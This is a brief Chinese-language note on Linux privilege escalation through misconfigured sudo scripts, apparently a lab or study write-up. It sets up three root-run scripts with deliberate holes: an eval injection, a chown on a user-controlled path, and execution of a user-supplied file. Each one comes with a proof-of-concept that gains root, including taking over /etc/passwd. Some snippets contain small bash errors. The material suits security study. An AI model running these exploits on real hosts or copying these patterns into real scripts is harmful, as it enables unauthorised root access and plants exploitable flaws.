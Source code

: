 # 0x00 脚本1

```shell
root: echo "aplyc1a ALL=(root) NOPASSWD:/home/aplyc1a/escal/1.sh" >> /etc/sudoers
root: chmod 755 /home/aplyc1a/escal/1.sh
```

脚本内容如下：

```shell
#!/bin/bash
set -x
if [ $1 = "aaa" ];then
    cmd = "$2 $3"
    eval $cmd
    exit $?
fi
```

poc:

```shell
aplyc1a:sudo ./1.sh aaa su -
```

# 0x01 脚本2

```shell
#!/bin/bash
set -x
if [ $1 = "aaa" ];then
    chown aplyc1a:aplyc1a $2/log.sh
fi
```

poc:

```shell
aplyc1a:sudo ./2.sh aaa "/etc/passwd "
```



# 0x02 脚本3

root在aplyc1a家目录下创建3.sh内容如下：

```shell
#!/bin/bash
${1}/log.sh
```

poc:

```shell
aplyc1a: echo "#!/bin/bash" > /tmp/log.sh
aplyc1a: echo "bash" > /tmp/log.sh
aplyc1a: chmod a+x /tmp/log.sh
aplyc1a:sudo ./3.sh "/tmp/"
```

